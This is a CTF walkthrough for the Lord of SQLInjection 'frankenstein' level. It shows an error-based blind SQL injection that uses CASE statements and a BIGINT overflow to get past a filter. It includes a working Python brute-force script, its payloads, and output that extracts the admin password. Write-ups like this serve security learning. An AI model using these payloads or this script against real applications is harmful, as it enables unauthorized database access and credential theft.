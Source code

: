 ```yaml
---
custom_edit_url: null
sidebar_position: 28
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/6915fb41-8baa-45e1-98b3-c45d05e0ec03)

We are provided with the SQL query:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='frankenstein' AND pw='{$_GET[pw]}'
```

## Filter:

This challenge filters the following: `_`, `.`, `(`, `)`, `union`.

Therefore we cannot use the  `length()` function and `if()` statements.
In order to get around this, we will have to use `CASE` statements.

## Error-based Blind SQL Injection

### ERROR 1690 (22003): BIGINT value is out of range[​](https://writeups-kunull.vercel.app/Lord%20of%20SQLInjection/iron_golem#error-1690-22003-bigint-value-is-out-of-range "Direct link to ERROR 1690 (22003): BIGINT value is out of range")

In SQL the maximum value for a column is `9223372036854775807`. If the value exceeds the limit, it throws the `ERROR 1690 (22003): BIGINT value is out of range` error message.

This is the error we will be exploiting.
### Wildcard

We also need to use the (`%`) wildcard character. It represents zero or more characters after teh specified character.

```
1% = 10, 100, 1200, etc
```

If we provide the following URI parameter:

```
?id=' || CASE WHEN id='admin' AND pw LIKE '[password_substring]%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='' || CASE WHEN id='admin' AND pw LIKE '[password_substring]%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -' AND pw='{$_GET[pw]}'
```

If the `[password_substring]` that we provide for `id='admin'` matches part of the `pw`, the `0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF` operation will be performed. Since the result of the multiplication operation would be greater than `9223372036854775807`, the challenge would throw an error if the condition is met.

### Script

```python title="frankenstein_script.md"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'fpl88d0ujgtatq5qt4a6o5n4om'}
url = 'https://los.rubiya.kr/chall/frankenstein_b5bab23e64777e1756174ad33f14b5db.php'

password = ''
end = False
searchspace = string.digits + string.ascii_letters

for index in range(1, 100):
  if (end == True):
    break
  end = True

  for char in searchspace:
    payload = f"' || CASE WHEN id='admin' AND pw LIKE '{password}{char}%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?pw={encoded_payload}'

    response = requests.get(full_url, cookies=cookies)

    if ("login_chk" in response.text):
      continue
    elif ("error" in response.text):
      print()
      print(f"[+] Payload: ?order={payload}")
      print(f"[+] Payload (URL encoded): ?order={encoded_payload}")
      print(f'[+] Character at index {index}: {char}')
      password = password + char
      end = False
      break

print()
print(f'[!] Extracted password: {password}')
print(f'[!] Final payload: ?pw={password}')
```

```
$ python .\frankenstein_script.py

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-
[+] Character at index 1: 0

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0d%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270d%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-
[+] Character at index 2: d

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0dc%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270dc%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-
[+] Character at index 3: c

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0dc4%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270dc4%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-
[+] Character at index 4: 4

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0dc4e%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270dc4e%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-     
[+] Character at index 5: e

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0dc4ef%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270dc4ef%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-    
[+] Character at index 6: f

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0dc4efb%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270dc4efb%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-   
[+] Character at index 7: b

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0dc4efbb%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270dc4efbb%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-  
[+] Character at index 8: b

[!] Extracted password: 0dc4efbb
[!] Final payload: ?pw=0dc4efbb
```

If we provide the following URI parameter:

```
?pw=0dc4efbb
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='frankenstein' AND pw='0dc4efbb'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/bef1ff18-ace7-4eed-ab14-e9584686da12)
